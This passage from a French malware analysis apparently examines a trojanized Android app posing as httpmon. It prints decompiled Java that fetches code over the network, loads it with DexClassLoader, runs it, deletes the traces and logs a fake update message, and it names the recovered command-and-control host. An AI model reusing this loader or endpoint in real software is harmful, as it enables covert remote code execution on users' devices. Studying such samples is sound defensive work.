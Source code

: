 ```java
        localDataInputStream.readFully(arrayOfByte);
        localObject3 = new File((String)localObject2);
        if (((File)localObject3).exists())
          continue;
        ((File)localObject3).createNewFile();
        FileOutputStream localFileOutputStream = new FileOutputStream((File)localObject3);
        localFileOutputStream.write(arrayOfByte);
        localFileOutputStream.flush();
        localFileOutputStream.close();
        localObject1 = new DexClassLoader((String)localObject2, (String)localObject1, (String)localObject1, MonitorService.class.getClassLoader()).loadClass((String)localObject4);
        localObject2 = ((Class)localObject1).newInstance();
        ((File)localObject3).delete();
        new File(str).delete();
        ((Class)localObject1).getMethod("start", new Class[] { DataInputStream.class, OutputStream.class, Context.class, [Ljava.lang.String.class }).invoke(localObject2, new Object[] { localDataInputStream, localDataOutputStream, context, new String[0] });
        paramArrayOfString.close();
        ((File)localObject3).delete();
        Log.w("httpmon", "Software updated successfully.");
        Log.w("httpmon", "https://play.google.com/store/apps/details?id=org.jtb.httpmon");
        return;
      }
      if ((!localObject4[i].getAbsolutePath().contains(".jar")) && (!localObject4[i].getAbsolutePath().contains(".dex")))
        break label540;
      localObject4[i].delete();
      break label540;
      ((File)localObject3).delete();
      ((File)localObject3).createNewFile();
      continue;
    }
    catch (Exception paramArrayOfString)
    {
      paramArrayOfString.printStackTrace();
      return;
    }
    label531: Log.w("httpmon", "Software currently up to date.");
    return;
    label540: i += 1;
  }
}
```

Les chaines base64 trouvées en début nous donnent le Saint Graal :  

```plain
httpmon.androidshare.net:443
```

Dans la classe il y a deux méthodes ajoutées par rapport à l'original : *updateInit* et *startAsync*.  
